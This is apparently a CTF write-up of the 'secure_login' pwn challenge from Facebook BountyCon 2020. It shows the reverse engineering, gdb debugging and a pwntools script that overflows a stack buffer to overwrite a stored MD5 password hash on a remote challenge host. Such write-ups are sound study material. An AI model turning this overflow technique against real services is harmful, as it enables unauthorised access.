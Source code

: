 ```yaml
---
layout: post
title:  "Secure login facebook bountycon 2020"
date:   2020-01-26 07:59:00
tags: ctf-writeup pwn
description: this article explains about secure-login from bountycon 2020.
categories: ctf
---
```


this is the only one pwn challenge on facebook bountycon 2020 , here is how i solve it.

the description :

    We developed a super secure login system, but unfortunately we aren't
    familiar with those newfangled memory-safe languages.


and we are given 64-bit ELF binary

    ./secure_login: ELF 64-bit LSB shared object,
    x86-64, version 1 (SYSV), dynamically linked,
    interpreter /lib64/l, BuildID[sha1]=e04815d2376518cc8b4295463f91479b57b8212a,
    for GNU/Linux 3.2.0, not stripped

after open it on ida , i found some function

<ul>
  <li>0x0000000000001269  wait_for_zombie</li>
  <li>0x0000000000001291  check_passwd</li>
  <li>0x0000000000001414  take_connections_forever</li>
  <li>0x00000000000014dc  main</li>
</ul>

let's see ```check_passwd()``` function

<img src="/images/2020-01-25-230713_576x439_scrot.png" />

looks like our input will compare with v17 , i assume v17 and v18 is one variable
since this is md5

this is ```take_connections_forever()``` function

<img src="/images/secure-login/2020-01-26-195358_499x425_scrot.png"/>

look like we have to follow child process to debug ```check_passwd()```, since there's
```fork() ``` on

{% highlight c %}
if ( !fork() )
{
    close(a1);
    check_passwd(v2);
}
{% endhighlight %}
this is can be done by using command ```set follow-fork-mode child``` on gdb
and set breakpoint on ```check_passwd``` now lets try to run it

<img src="/images/secure-login/2020-01-26-200237_1366x768_scrot.png" />

the binary will made a connection on port 10000 , so i connect to this port using
```nc``` command, now lets set another breakpoint on <br/>
```0x00005555555553af <+286>:	call   0x555555555100 <memcmp@plt>```

and try to input ```AAAAAAAA```

<img src="/images/secure-login/2020-01-26-201111_313x87_scrot.png"/>

value on ```0x00007fffffffdda0``` is md5 from our input and ```0x00007fffffffdd90```
from the binary it self , lets see rsp

<img src="/images/secure-login/2020-01-26-201658_359x182_scrot.png" />

```
0x7fffffffdd10:	0x4141414141414141	0x000000000000000a <-- our input
0x7fffffffdd20:	0x0000000000000000	0x0000000000000000
0x7fffffffdd30:	0x0000000000000000	0x0000000000000000
0x7fffffffdd40:	0x0000000000000000	0x0000000000000000
0x7fffffffdd50:	0x0000000000000000	0x0000000000000000
0x7fffffffdd60:	0x0000000000000000	0x0000000000000000
0x7fffffffdd70:	0x0000000000000000	0x0000000000000000
0x7fffffffdd80:	0x0000000000000000	0x0000000000000000
0x7fffffffdd90:	0xa99dd1dbed586201	0xc6bbb0b969f29e4d <-- the md5 password
0x7fffffffdda0:	0xf5f48e17c7c26f5c	0x71750fc6d47e8ca8 <-- this is md5 from our input
```

let's input ```A*152```

<img src="/images/secure-login/2020-01-26-202640_682x750_scrot.png" />

look like we can control ```rsi``` and ```rcx``` , let's see the stack

<img src="/images/secure-login/2020-01-26-202935_353x180_scrot.png" />

now we can try to overwrite ```0x7fffffffdd90``` so the value will have same value
with our input , this is my exploit to solve this challenge

{% highlight python %}
from pwn import *

def main():
    # r = remote("127.0.0.1",10000)
    r  = remote("ec2-3-11-37-224.eu-west-2.compute.amazonaws.com",10000)
    # reached
    p = "A" * (152 - 32)
    p += "A" * 8
    p += p64(0x2016e548d3b035af)
    p += p64(0x0c5b389d3383e136)

    r.sendlineafter(":",p)
    r.interactive()

if __name__ == '__main__':
    main()

{% endhighlight %}

<img src="/images/secure-login/2020-01-26-203415_557x102_scrot.png" />
